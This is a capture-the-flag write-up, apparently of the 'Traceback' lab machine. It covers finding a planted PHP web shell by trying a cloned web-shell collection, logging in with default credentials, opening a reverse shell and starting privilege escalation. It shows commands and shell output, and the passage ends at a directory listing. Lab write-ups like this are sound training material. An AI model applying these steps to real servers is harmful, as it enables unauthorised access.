 So we are looking for an backdoor, Nice!!

While checking page source we got some other hint which would drive us


![](https://paper-attachments.dropbox.com/s_D88239B58E0AD8374C9EC1446F44F5B3595D2F17E09DF1A9CCD36FBE59479F08_1597821409552_Screenshot+2020-08-19+at+12.46.16+PM.png)


A webpage with a comment is trying to says something. 
I have a habit for surfing through google about hints while do so look what i found 😁


![](https://paper-attachments.dropbox.com/s_D88239B58E0AD8374C9EC1446F44F5B3595D2F17E09DF1A9CCD36FBE59479F08_1597821587274_Screenshot+2020-08-19+at+12.48.43+PM.png)


 
A Github repository which has collection of all possible web-shells Great!! 

This made me confident and showed me that i m in a right track 🤪

Let’s just clone that repo and try every possible web-shells 


    git clone https://github.com/TheBinitGhimire/Web-Shells.git

Finally after trying out every php file, one worked out


    http://10.10.10.181/smevk.php


    https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php


![](https://paper-attachments.dropbox.com/s_D88239B58E0AD8374C9EC1446F44F5B3595D2F17E09DF1A9CCD36FBE59479F08_1597822008342_Screenshot+2020-08-19+at+12.56.28+PM.png)


I just logged in with default credentials which was mentioned in the file and created a reverse shell


![](https://paper-attachments.dropbox.com/s_D88239B58E0AD8374C9EC1446F44F5B3595D2F17E09DF1A9CCD36FBE59479F08_1597822349155_Screenshot+2020-08-19+at+12.59.42+PM.png)



    Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
     00:33:33 up  2:20,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    webadmin


----------
### Privilege Escalation towards user.txt:


    $ ls -la
    total 44
    drwxr-x--- 5 webadmin sysadmin 4096 Aug 19 00:27 .
    drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
    -rw------- 1 webadmin webadmin  344 Aug 19 00:27 .bash_history
    -rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
    -rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
    drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
    drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
    -rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
    -rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
    drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
    -rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
